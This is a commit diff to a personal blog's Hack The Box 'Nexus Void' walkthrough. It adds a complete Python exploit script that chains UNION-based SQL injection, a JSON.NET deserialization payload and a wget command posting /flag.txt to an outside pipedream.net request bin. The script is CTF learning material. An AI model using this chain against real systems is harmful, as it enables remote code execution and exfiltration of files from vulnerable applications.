

Before and after one commit to SaxonYu/SaxonYu.github.io, a Jekyll site: the page built from _posts/2024-04-18-Hack The Box: Nexus Void Walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 10812 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Nexus Void Post Authomation Code Update

````diff
--- a/_posts/2024-04-18-Hack The Box: Nexus Void Walkthrough.md
+++ b/_posts/2024-04-18-Hack The Box: Nexus Void Walkthrough.md
@@ -92,7 +92,102 @@ Now everything is set up. Simply visit the `Home/Wishlist` URL, and the Pipedrea
 
 # Automation
 ```python3
-To be Completed
+import requests, requests.cookies
+import re
+import base64
+
+IP = "94.237.49.182"
+Port = 50165
+
+csrfPattern = re.compile(r'<input name="__RequestVerificationToken" type="hidden" value="([a-zA-Z0-9_\\-]+)" />')
+exfiltrationPattern = re.compile(r'<h3 class="font-semibold text-lg px-3 mt-2 text-white">([0-9]+:hacker)</h3>')
+
+payload = '''{"$type":"Nexus_Void.Helpers.StatusCheckHelper, Nexus_Void","output":null,"command":"wget https://eo6ww37wx07qvmv.m.pipedream.net --post-file /flag.txt"}'''
+
+def register():
+    print("Registering the user hacker with password 'hacker'...")
+    r = requests.get(f"http://{IP}:{Port}/Login/Create")
+    csrfToken = csrfPattern.search(r.text)[1]
+    Cookie = r.headers["Set-Cookie"].split(";")[0]
+    headers = {"Cookie": Cookie}
+    data = {
+        "username": "hacker",
+        "password": "hacker",
+        "__RequestVerificationToken": csrfToken,
+    }
+    r = requests.post(f"http://{IP}:{Port}/Login/Create", headers=headers, data=data)
+
+def retrieveSession():
+    # Login so that rest of the operations can be completed with session persistence
+    with requests.Session() as session:
+        r = session.get(f"http://{IP}:{Port}")
+        csrfToken = csrfPattern.search(r.text)[1]
+        data = {
+            "username": "hacker",
+            "password": "hacker",
+            "__RequestVerificationToken": csrfToken,
+        }
+        print("Logging in as hacker...")
+        r = session.post(f"http://{IP}:{Port}/", data=data, allow_redirects=False)
+
+        return session
+
+def exfiltrateID(session):
+    print("Adding first item to create the wishlist in database...")
+    # Add the first item so that the wishlist is created in the database
+    data = {
+        "sellerName": "Xclow3n",
+        "name": "Shadowcaster MK VI"
+    }
+    session.post(f"http://{IP}:{Port}/Home/Wishlist", data=data)
+
+    # Union-injection to exfiltrate current user ID
+    # by including ID as the name of an item in the wishlist
+    print("Exfiltrating current user ID...")
+    data = {
+        "sellerName": "Xclow3n",
+        "name": "' union select 1, (select group_concat(ID_username) from (select (ID||':'||username) as ID_username from Wishlist)), 3, 4, 5, 6, 7--"
+    }
+    session.post(f"http://{IP}:{Port}/Home/Wishlist", data=data)
+
+    # GET request to retrieve exfiltrated ID
+    r = session.get(f"http://{IP}:{Port}/Home/Wishlist")
+    ID = exfiltrationPattern.findall(r.text)[0].split(":")[0]
+
+    return ID
+
+def deliverPayload(session, ID):
+    # Update current user's wishlist.data
+    print("Delivering payload...")
+    base64Payload = base64.b64encode(payload.encode()).decode()
+    SQLi =f'''' union select 1 , '', 3, 4, 5, 6, 7) as "n" LIMIT 1; UPDATE Wishlist SET data='{base64Payload}' WHERE ID='{ID}';--'''
+    data = {
+        "sellerName": "Xclow3n",
+        "name": SQLi
+    }
+    session.post(f"http://{IP}:{Port}/Home/Wishlist", data=data)
+
+def triggerPayload(session):
+    # Trigger deserilization of the payload
+    # by retrieving current user's wishlist
+    print("Triggering payload...")
+    session.get(f"http://{IP}:{Port}/Home/Wishlist")
+
+def exploit(session):
+    ID = exfiltrateID(session)
+    deliverPayload(session, ID)
+    triggerPayload(session)
+    print("Done! Check Your HTTP Request Bin")
+
+def main():
+    # Register a new user
+    register()
+    # Login and retrieve session token so that we can interact with more backend APIs
+    session = retrieveSession()
+    exploit(session)
+
+if __name__ == "__main__":
+    main()
 ```
 
 # Beyond Flag
````
